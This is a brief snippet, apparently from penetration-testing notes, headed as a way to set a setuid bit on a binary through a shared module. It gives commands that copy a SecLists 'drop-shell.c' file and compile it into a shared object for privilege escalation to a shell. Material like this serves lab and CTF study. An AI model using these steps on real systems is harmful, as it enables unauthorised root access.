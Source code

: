 ## write setuid bit to binary with SO shared module object
/usr/share/seclists/Miscellaneous/source-code/c-linux/drop-shell.c
```bash
cp /usr/share/seclists/Miscellaneous/source-code/c-linux/drop-shell.c .
gcc -fPIC -shared -o drop-shell.so drop-shell.c
```
